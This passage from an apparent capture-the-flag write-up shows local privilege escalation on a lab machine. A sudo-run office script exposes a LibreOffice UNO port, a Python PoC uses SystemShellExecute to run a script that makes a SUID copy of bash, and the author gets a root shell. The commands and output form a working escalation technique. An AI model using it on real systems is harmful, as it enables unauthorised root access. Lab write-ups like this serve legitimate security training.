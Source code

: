 ```python
shell_execute = service_manager.createInstance("com.sun.star.system.SystemShellExecute")
shell_execute.execute("/tmp/suid.sh", '',1)
```

Now I need two shells, one to start the UNO server and another to execute the python script:

**Shell 1**:
```bash
kai_relay@formulax:/tmp$ sudo /usr/bin/office.sh
```

**Shell 2**:

```bash
kai_relay@formulax:/tmp$ cat suid.sh 
#!/bin/bash

cp /bin/bash /tmp/
chmod u+s /tmp/bash
kai_relay@formulax:/tmp$ chmod +x suid.sh 
kai_relay@formulax:/tmp$ python3 poc.py 
usage: poc.py [-h] --host HOST --port PORT
poc.py: error: the following arguments are required: --host, --port
kai_relay@formulax:/tmp$ python3 poc.py --host localhost --port 2002
[+] Connecting to target...
[+] Connected to localhost
```

Now I have a /tmp/bash with SUID privileges:

```bash
kai_relay@formulax:/tmp$ ls -l bash 
-rwsr-xr-x 1 root root 1396520 Aug  3 17:26 bash
```

I can execute it and have root!:

```bash
kai_relay@formulax:/tmp$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
55****************************f0
```
